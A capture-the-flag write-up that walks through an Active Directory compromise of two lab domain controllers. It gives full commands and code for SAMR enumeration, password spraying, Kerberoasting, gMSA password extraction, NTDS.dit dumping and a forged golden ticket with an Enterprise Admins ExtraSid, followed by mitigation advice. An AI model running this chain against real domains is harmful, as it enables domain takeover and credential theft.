






# M&A

## Description

> Velocity acquired a smaller company and bolted its old domain onto the new one. Migration: a two-week sprint, max. After integration, "Decommission legacy domain" went straight into the backlog, right behind "write tests." The old admins who actually understood the setup didn’t make it through the "agile transformation." Move fast. Worry later.

> Disclaimers: Add both Servers to your hosts file! On every Administrator Desktop lies something valuable!

## Network and initial checks

| Role | Address | Controller | Realm |
|---|---:|---|---|
| Parent | `10.244.0.10` | `DC-NEW.velocity.hacklu` | `VELOCITY.HACKLU` |
| Child | `10.244.0.20` | `DC-OLD.old.velocity.hacklu` | `OLD.VELOCITY.HACKLU` |

I added these entries to the attack machine's `/etc/hosts`:

~~~text
10.244.0.10 dc-new.velocity.hacklu dc-new
10.244.0.20 dc-old.old.velocity.hacklu dc-old
~~~

RootDSE returned the naming contexts `DC=velocity,DC=hacklu` and `DC=old,DC=velocity,DC=hacklu`. The focused scan found ports 53, 88, 135, 139, 389, 445, 464, 636, 3268, 3269, and 9389 open on both controllers. Ports 3389, 5985, and 5986 were closed or filtered.

Anonymous LDAP subtree searches and SYSVOL access were denied. AS-REP roasting produced no usable hashes. Anonymous SAMR was still available, so I used it to enumerate child-domain users, groups, and password policy.

## 1. Enumerate the child domain and find a foothold

SAMR enumerated 29 child-domain users and returned the `ServiceAccounts` group, `svc_test`, and `svc_granite_sync`. The child password policy had a one-character minimum, no password history, no complexity requirement, and no lockout threshold. The parent policy required seven characters, kept 24 old passwords, and enabled complexity; its lockout threshold was also zero.

The bounded check found `svc_test:svc_test` on attempt 38. A backup email confirms that the migration test accounts used their usernames as passwords and that `svc_test` was still enabled. The helper checked 13 candidate passwords against three account names, then stopped when the TGT request succeeded.

From a checkout of the challenge folder, the standalone helpers run like this:

~~~bash
PYTHONPATH=/tmp/ad13-python-packages python3 program/helpers/samr_enum.py
PYTHONPATH=/tmp/ad13-python-packages python3 program/helpers/spray_service.py
~~~

[samr_enum.py](https://github.com/halliana/CTF-Write-ups/blob/main/Hack.lu%20CTF%202026/%5Bactive%20directory%5D%20M%26A/program/helpers/samr_enum.py) collects the anonymous SAMR users, groups, and policy. [spray_service.py](https://github.com/halliana/CTF-Write-ups/blob/main/Hack.lu%20CTF%202026/%5Bactive%20directory%5D%20M%26A/program/helpers/spray_service.py) checks the small candidate list against the three service accounts and stops when it gets a TGT.

## 2. Kerberoast the legacy sync account

The SAMR comment on `svc_granite_sync` read "Legacy Granite backup sync account - TEMPORARY, remove after migration (2021)." Its SPN was `MSSQLSvc/svc_granite_sync.`. A migration email says the sync account stayed in use because it still used old encryption for compatibility. The child KDC issued its ticket using RC4, Kerberos etype 23.

TCP/1433 did not respond on either controller. The KDC could still issue a service ticket from the SPN and a valid TGT. Hashcat mode 13100 handles Kerberos 5 etype 23 TGS-REP hashes. The mask `Granite?d?d` recovered `Granite00`.

[roast_spn.py](https://github.com/halliana/CTF-Write-ups/blob/main/Hack.lu%20CTF%202026/%5Bactive%20directory%5D%20M%26A/program/helpers/roast_spn.py) requests the service ticket. In the captured WSL session, the Workbench copy saved the hash under `.ctf-workbench`. I ran Hashcat from Downloads:

~~~bash
PYTHONPATH=/tmp/ad13-python-packages python3 .ctf-workbench/ad13-ma/challenges/AD-13/roast_spn.py > /tmp/ad13-roast.out
hashcat -m 13100 -a 3 .ctf-workbench/ad13-ma/challenges/AD-13/kerberoast.hash 'Granite?d?d'
~~~

## 3. Follow the trust and inspect the parent gMSA

The old domain was a child of the Velocity forest root. Its trust record showed `trustDirection=3`, `trustType=2`, and `trustAttributes=32` (`WITHIN_FOREST`). Kerberos returned a referral for `krbtgt/VELOCITY.HACKLU`, followed by a service ticket for `ldap/dc-new.velocity.hacklu`. Both tickets used etype 18 (AES256).

A plain LDAP bind returned `strongerAuthRequired`. A Kerberos GSSAPI bind over LDAPS let `svc_test` read parent-domain directory objects. [cross_tgt.py](https://github.com/halliana/CTF-Write-ups/blob/main/Hack.lu%20CTF%202026/%5Bactive%20directory%5D%20M%26A/program/helpers/cross_tgt.py) records the referral and requests the parent LDAP ticket. Microsoft documents the two-way, transitive trust between a child domain and its parent in an AD DS forest. [Microsoft forest trust overview](https://learn.microsoft.com/en-us/entra/identity/domain-services/concepts-forest-trust)

The parent had a gMSA named `svc_backup_gmsa$`; LDAP described it as the Velocity backup service managed account. Its `msDS-GroupMSAMembership` descriptor contained an allow ACE with mask `0xf01ff` for this child-domain SID. Microsoft documents this attribute as the access check for retrieving a group MSA’s password. [Microsoft schema reference](https://learn.microsoft.com/en-us/windows/win32/adschema/a-msds-groupmsamembership)

~~~text
S-1-5-21-976573591-227444304-1123500008-1601
~~~

That SID belongs to the child `ServiceAccounts` group, which contained `svc_granite_sync`. `svc_test` could read the ACL but got no managed-password value. When I queried as `svc_granite_sync`, LDAP returned it.

Using the published helper paths, I requested a ticket for each identity, then queried or read the gMSA with the matching cache:

~~~bash
mkdir -p /tmp/ad13-ma.VDTOko
PYTHONPATH=/tmp/ad13-python-packages python3 program/helpers/cross_tgt.py
PYTHONPATH=/tmp/ad13-python-packages python3 /tmp/ad13-python-packages/bin/getTGT.py -dc-ip 10.244.0.20 OLD.VELOCITY.HACKLU/svc_test:svc_test
KRB5_CONFIG=program/krb5.conf KRB5CCNAME=./svc_test.ccache PYTHONPATH=/tmp/ad13-python-packages python3 program/helpers/parent_gmsa_acl.py
PYTHONPATH=/tmp/ad13-python-packages python3 /tmp/ad13-python-packages/bin/getTGT.py -dc-ip 10.244.0.20 OLD.VELOCITY.HACKLU/svc_granite_sync:Granite00
KRB5_CONFIG=program/krb5.conf KRB5CCNAME=./svc_granite_sync.ccache PYTHONPATH=/tmp/ad13-python-packages python3 program/helpers/parent_gmsa_read.py
~~~

A gMSA password is stored as a structured blob. MS-ADTS defines its fields and offsets. The helper extracts the current password bytes, removes the UTF-16 terminator, and calculates the NT hash with MD4. [MS-ADTS: msDS-ManagedPassword](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/9cd2fc5e-7305-4fb8-b233-2a60bc3eec68)

~~~python
import struct
from Crypto.Hash import MD4

blob = entry.entry_raw_attributes["msDS-ManagedPassword"][0]
version, reserved, total_len, current_off, previous_off, query_off, unchanged_off = \
    struct.unpack_from("<HHIHHHH", blob)

current_end = previous_off or query_off
password_bytes = blob[current_off:current_end - 2]
gmsa_nt_hash = MD4.new(password_bytes).hexdigest()
~~~

LDAP returned a 290-byte blob, including 256 password bytes. [parent_gmsa_read.py](https://github.com/halliana/CTF-Write-ups/blob/main/Hack.lu%20CTF%202026/%5Bactive%20directory%5D%20M%26A/program/helpers/parent_gmsa_read.py) derives and saves the NT hash. I used it to obtain a parent-domain TGT and CIFS ticket for `DC-NEW`. [parent_gmsa_acl.py](https://github.com/halliana/CTF-Write-ups/blob/main/Hack.lu%20CTF%202026/%5Bactive%20directory%5D%20M%26A/program/helpers/parent_gmsa_acl.py) prints the retrieval ACE. Microsoft’s gMSA guidance explains the group that controls password retrieval. [Microsoft gMSA management guidance](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/group-managed-service-accounts/group-managed-service-accounts/manage-group-managed-service-accounts)

## 4. Use the gMSA to read the old domain backup

The gMSA could read the custom `Backup$` share on `DC-NEW`, but not the controller’s `C$` or `ADMIN$` shares. Its `Export` directory contained the old domain’s `NTDS.dit` and `SYSTEM` hive.

The export manifest names `GRANITE-DC01` as the source and labels the files an authoritative rollback copy retained for 90 days. The decommission email says user passwords were reset after cutover; service and system accounts were left for a separate review. The backup still held the old `krbtgt` key. A pre-acquisition review had flagged weak service passwords, RC4, anonymous enumeration, and broad backup-share access.

The download returned these files:

~~~text
NTDS.dit  33554432 bytes  SHA256 96cae8570cf1275f0ae65b193a23059cea37f2d871134ca11b9dc931ba7549ef
SYSTEM    14155776 bytes  SHA256 e35b4fd612786da9113880ff150c07d61f67762162f633a72cccfda5e6001578
~~~

[gmsa_download_ntds.py](https://github.com/halliana/CTF-Write-ups/blob/main/Hack.lu%20CTF%202026/%5Bactive%20directory%5D%20M%26A/program/helpers/gmsa_download_ntds.py) places the files under `backup_dump/Export` in the runner’s private directory. The runner then calls Impacket’s `secretsdump.py` there:

~~~bash
PYTHONPATH=/tmp/ad13-python-packages python3 /tmp/ad13-python-packages/bin/secretsdump.py \
  -system backup_dump/Export/SYSTEM \
  -ntds backup_dump/Export/NTDS.dit \
  LOCAL \
  -outputfile old_ntds_hashes
~~~

The dump contained the old child domain’s AES256 `krbtgt` key, which remained valid after the user-password reset. [Impacket secretsdump source](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)

## 5. Forge the ticket across the trust

The domains had different SIDs:

~~~text
OLD.VELOCITY.HACKLU
S-1-5-21-976573591-227444304-1123500008

VELOCITY.HACKLU
S-1-5-21-274105150-4017454061-1646591600
~~~

The parent Enterprise Admins SID is the parent SID plus RID `519`: `S-1-5-21-274105150-4017454061-1646591600-519`. From that same run directory, I used the recovered child `krbtgt` AES256 key to forge a TGT for the child Administrator, with that parent SID in the PAC as an ExtraSid:

~~~bash
KRBTGT_AES=$(awk -F: \
  '$1 == "krbtgt" && $2 == "aes256-cts-hmac-sha1-96" { print $3; exit }' \
  old_ntds_hashes.ntds.kerberos)

PYTHONPATH=/tmp/ad13-python-packages python3 /tmp/ad13-python-packages/bin/ticketer.py \
  -aesKey "$KRBTGT_AES" \
  -domain-sid S-1-5-21-976573591-227444304-1123500008 \
  -domain OLD.VELOCITY.HACKLU \
  -groups 512,513 \
  -extra-sid S-1-5-21-274105150-4017454061-1646591600-519 \
  Administrator
~~~

Impacket saves the ticket as `Administrator.ccache` in that run directory. The desktop helper uses it to request CIFS tickets.

My first forged ticket using RC4 was rejected. The AES256 ticket worked. I used the child TGT to request a CIFS ticket for `DC-OLD`, then a referral and a CIFS ticket for `DC-NEW`. This instance accepted the parent Enterprise Admins SID across the within-forest trust.

The PAC specification describes SID validation when authorization data crosses a trust boundary. [MS-PAC authorization validation and filtering](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/95fc5245-81dc-460c-aca4-a09c1ff2aa8b)

[golden_desktops.py](https://github.com/halliana/CTF-Write-ups/blob/main/Hack.lu%20CTF%202026/%5Bactive%20directory%5D%20M%26A/program/helpers/golden_desktops.py) read `flag.txt` from both Administrator desktops using CIFS tickets. The files were UTF-16. The manual run saved them under `/tmp/ad13-ma.VDTOko`; the bundled runner uses its own private directory. I removed the line endings before joining the two fragments.

~~~text
DC-OLD C$\Users\Administrator\Desktop\flag.txt
flag{m0v3_f4st_br34k

DC-NEW C$\Users\Administrator\Desktop\flag.txt
_th3_f0r3st_89a71f9g}

Combined: flag{m0v3_f4st_br34k_th3_f0r3st_89a71f9g}
~~~

The Workbench had no flag regex configured, so I checked the combined value against both desktop files.

I decoded and joined the captured files with:

~~~python
from pathlib import Path

child = Path("/tmp/ad13-ma.VDTOko/flag_child.bin").read_bytes().decode("utf-16").strip()
parent = Path("/tmp/ad13-ma.VDTOko/flag_parent.bin").read_bytes().decode("utf-16").strip()
print(child + parent)
~~~

## Why this path worked

gMSAs use automatically managed passwords, but the retrieval ACL controls who can read them. Here it allowed a group from the old child domain. Because `svc_granite_sync` belonged to that group, I could retrieve the parent gMSA’s password. The gMSA could read the old backup, including the child `krbtgt` key. I used that key to forge a child Administrator ticket carrying the parent Enterprise Admins SID. The within-forest trust accepted it, and the ticket read both desktops.

After a migration, remove legacy groups from gMSA retrieval ACLs, rotate and retire migration accounts, restrict backup-share access, encrypt or destroy old NTDS exports, and rotate the domain `krbtgt` key. Treat backups containing `NTDS.dit` and `SYSTEM` as Tier 0 credential stores.

## Run the bundled program

[run-solve.sh](https://github.com/halliana/CTF-Write-ups/blob/main/Hack.lu%20CTF%202026/%5Bactive%20directory%5D%20M%26A/program/run-solve.sh) runs the [Python helpers](https://github.com/halliana/CTF-Write-ups/tree/main/Hack.lu%20CTF%202026/%5Bactive%20directory%5D%20M%26A/program/helpers); [krb5.conf](https://github.com/halliana/CTF-Write-ups/blob/main/Hack.lu%20CTF%202026/%5Bactive%20directory%5D%20M%26A/program/krb5.conf) maps the two realms to their KDCs. Clone the repository, open the challenge folder, and run the command below. The runner reads the child SID during SAMR enumeration and derives the parent Enterprise Admins SID from the gMSA object SID. It keeps intermediate files under a private `/tmp/ad13-ma-run.*` directory.

The original WSL environment had Hashcat, Impacket, ldap3, GSSAPI, PyCryptodome, and cffi 2.1.1. Impacket entry points were under `/tmp/ad13-python-packages/bin`. The runner checks imports, required tools, the tunnel route, and host mappings before it starts. In an interactive terminal it prints the joined flag, then waits for a screenshot.

With the refreshed config at `/tmp/wg.conf`, bring up WireGuard if the current tunnel is not already active. From the package folder:

~~~bash
sudo wg-quick up /tmp/wg.conf
bash program/run-solve.sh
~~~

If the old instance is still connected, first take its tunnel down with `sudo wg-quick down /tmp/wg.conf`. The runner contains the account and domain names from the captured solve and has not been checked against the reset instance.

## References

- [How trusts work for forests in Active Directory, Microsoft Learn](https://learn.microsoft.com/en-us/entra/identity/domain-services/concepts-forest-trust). Covers child-parent trust paths and the two-way, transitive trust created inside an AD DS forest.
- [Manage group Managed Service Accounts, Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/group-managed-service-accounts/group-managed-service-accounts/manage-group-managed-service-accounts). Describes the group that controls which principals may retrieve a gMSA password.
- [ms-DS-GroupMSAMembership attribute, Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/adschema/a-msds-groupmsamembership). Defines the attribute used for the password-retrieval access check.
- [MS-ADTS: msDS-ManagedPassword, Microsoft Open Specifications](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/9cd2fc5e-7305-4fb8-b233-2a60bc3eec68). Defines the managed-password blob and its offset fields.
- [MS-PAC authorization validation and filtering, Microsoft Open Specifications](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/95fc5245-81dc-460c-aca4-a09c1ff2aa8b). Explains SID validation when PAC data crosses a trust boundary.
- [Forest.SetSidFilteringStatus, Microsoft Learn](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectory.forest.setsidfilteringstatus?view=windowsdesktop-10.0). Describes SID filtering and its relationship to SID history within a forest.
- [Kerberoasting, MITRE ATT&CK T1558.003](https://attack.mitre.org/techniques/T1558/003/) and [Golden Ticket, T1558.001](https://attack.mitre.org/techniques/T1558/001/).
- [Hashcat example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes). Lists mode 13100 for Kerberos 5 etype 23 TGS-REP.
- [Impacket getTGT.py](https://github.com/fortra/impacket/blob/master/examples/getTGT.py), [ticketer.py](https://github.com/fortra/impacket/blob/master/examples/ticketer.py), and [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py). The included `roast_spn.py` uses Impacket’s Kerberos API for the TGS request.
